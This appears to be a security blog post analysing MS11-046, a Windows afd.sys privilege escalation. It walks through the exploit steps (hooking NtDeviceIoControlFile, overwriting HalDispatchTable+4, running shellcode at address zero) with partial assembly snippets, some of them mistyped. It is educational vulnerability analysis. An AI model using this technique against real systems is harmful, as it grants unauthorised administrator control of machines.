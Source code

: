 ```yaml
---
layout: post
title: Ancillary Function Driver [MS11-046]
date:   2021-01-31
categories:  PE MSDOS
published: true
---
```


Started the kernel fuzzing in Windows Server 2008 R2 , 32-Bit. I identified this version of windows using vulnerable or unpatched version of Ancillary Function Driver(AFD).

---
[](#header-1)**Definition**
---

The ancillary function driver supports windows sockets application in the afd.sys file. The afd.sys driver runs in a kernel mode and manages the Winsock TCP/IP communication protocols.

---
[](#header-2)**Analysis**
---

Major Flaw in AFD Driver is it was improperly validating input passed from the user mode to the kernel mode, through which any user can get Administrator Rights.
For exploiting this vulnerability , the user should have Login Credentials as a Local User.

---
 [](#header-3)**Bug Mechanism**
---

Once Execution is done , Process waits for a user to enter an argument, with successfull execution of a process, user will able to exploit Privilege Escalation.

***BUG***

Once the Execution is started :

It calls “ZwQuerySystemInformation” with user arguments such as -> **InfoType = SystemModuleInfo**

After command execution , it will list the loaded drivers with there memory addresses in kernel mode.

![](https://yashomer1994.github.io/yash007.github.io/assets/afd/1.png)

We identified the Entry of "**ntoskrnl.exe**" or "**ntkrnlpa**" in the list the memory is loaded in the kernel space from "**“_SYSTEM_MODULE_INFORMATION**".

![](https://yashomer1994.github.io/yash007.github.io/assets/afd/2.png)


**LoadLibrary()** will Load the module in user mode and start searching for the address of "**HalfDispatchTable**".

![](https://yashomer1994.github.io/yash007.github.io/assets/afd/3.png)

Instructions are used to get the “**HalDispatchTable +4**” in module “ntkrnlpa.exe” in kernel space.

![](https://yashomer1994.github.io/yash007.github.io/assets/afd/4.png)

---
 [](#header-4)**Exploit**
---

1. The exploit will start by fetching the address to “NtDeviceIoControlFile” API from NTDLL. Once the address is fetched it performs an inline function hooks to the API.

Code is used to Perform the Hook:

    
    	MOV BYTE PTR DS:[ESI],68

    /* ESI points to start of the address of NtDeviceIoControlFile */

        MOV DWORD PTR DR:[ESI+1],
        MOV BYTE PTR DR:[ESI+5]

    /* Above instructions used to inject instructions in to the address space of NtDeviceIoControlFile */

![](https://yashomer1994.github.io/yash007.github.io/assets/afd/5.png)


    PUSH <zero.loc_401640>
    RETN 


The address <zero.loc_401640> points to the hook routine which will be executed before NtDeviceIoControlFiles code as shown below :

     CMP DWORD PTR SS:[ESP+18],12007

    /* 12007 indicates the Iocontrolcode for socket connect */

        JNZ SHORT <zero.loc_40165B>
        MOV EAX,DWORD PTR DS:[40FA70]

    /* contains values 8053513c (address of HalDispatchTable + $4) */

        MOV DWORD PTR SS:[ESP+24],EAX

    /* output buffer for NtDeviceIoControlFile, the address now point to 8053513c*/

    MOV DWORD PTR SS:[ESP+80], 0

    /* The length of output buffer is set to 0  */

    LEA EAX DWORD PTR DS:[40FA78]

    /* Location of the original NtDeviceControlFile which gets executed next. */

    PUSH EAX
    RETN

The above code will change arguments provided to function “**NtDeviceIoControlFile**” when a socket connection bein performed, the arguments changed are output buffer and its length as given below :

        Outbuffer = 8053513c
        Length = 0;

The routine at adddress **0x0040fa78** is executed , “**NtDeviceIoControlFile**” .

     MOV EAX 42, 
     MOV EDX,7FF30300
     CALL EDX
     RETN 28

The modified code is it will hook without any error to connect with 127.0.0.1 at 135 port using connect() “**NtDeviceControl**”.
The driver writes location to (0x8053513c) -> HalfDispatchTable + $4) with the value 0.  

Once is hook successfully overwrites the memory to 0, NtDeviceIoControlFile is removed.

![](https://yashomer1994.github.io/yash007.github.io/assets/afd/6.png)

Final Step of Exploitation To call the API “**ntdll.ZwQueryIntervalProfile**".

     CALL DWORD PTR [HalfDispatchTable+$4]

As mentioned earlier the value of HalfDispatchTable+$4 is now 0 stored after call to connect().

        New Pointer PTR:
        CALL 0x0000000

![](https://yashomer1994.github.io/yash007.github.io/assets/afd/7.png)

The shellcode is copied to the location of 0x00000000 gets executed.

API CALL “**NtDeviceIoControlFile**” will lead to arbitrary memory overwrite which will lead to Privilege Escalation.

![](https://yashomer1994.github.io/yash007.github.io/assets/afd/8.png)


---
 [](#header-5)**Proof Of Concept**
---

![](https://yashomer1994.github.io/yash007.github.io/assets/afd/9.png)
















